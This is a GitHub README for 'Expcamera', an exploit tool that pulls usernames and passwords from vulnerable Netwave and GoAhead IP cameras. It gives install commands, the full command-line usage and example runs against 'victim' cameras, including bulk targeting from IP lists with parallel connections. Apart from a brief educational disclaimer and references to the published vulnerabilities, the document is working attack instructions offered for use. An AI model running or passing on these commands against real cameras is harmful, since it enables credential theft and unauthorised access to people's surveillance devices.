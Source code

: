 # Expcamera
Exploit Netwave and GoAhead IP Camera  
Expcamera is a tool for exploiting vulnerable Netwave and GoAhead IP camera to get the username and password.  
Python3  
	
**Attention:this tool is just for educational!**  
**Please comply with local laws and regulations!**  

# Installation
	git clone https://github.com/vanpersiexp/expcamera.git  
	pip3 install -r related.txt  
# Usage
	python3 exploit_camera.py -h  

	usage: exploit_camera.py [-h] [-b {1,2}] [-o OUTPUTFILE] [-T TIMEOUT]  
        	                 [-t TASKS] [-q | -v] [-i IP | -I INPUTFILE]  

	Exploit IP Camera. Please use it just in educational purpose!  

	optional arguments:  
	  -h, --help     show this help message and exit  
	  -b {1,2}       Choose the brand of IP Camera. 1 represents Netwave,2  
	                 represents GoAhead.  
	  -o OUTPUTFILE  Output into path you input.The default path in dir /tmp  
	  -T TIMEOUT     The default timout for netwave is 300s.  
	  -t TASKS       Run TASKS number of connects in parallel,default is 10  
	  -q             Quiet mode.  
	  -v             Show more informations.  
	  -i IP          The camera's ip and port.Example: 192.168.1.100:80  
	  -I INPUTFILE   The camera's ip:port address file. The file's format like  
	                 this 192.168.1.100:80 in a line.  
# Example
1.Victim IP Camera's brand is Netwave.The ip is 192.168.1.100 and port is 80  
	python3 exploit_camera.py -b 1 -i 192.168.1.100:80 -v  

2.Victim IP Camera's brand is GoAhead.The iplist.txt is given.   
The iplist.txt show as below:  
192.168.1.10:80  
192.168.1.100:81  
192.168.1.200:8080  

	python3 exploit_camera.py -b 2 -I iplist.txt -v
	
# Contacts
pu.xiaorvp@gmail.com  

# References
http://www.cnvd.org.cn/flaw/show/CNVD-2017-01037  
http://cn.0day.today/exploit/26889  
https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html  
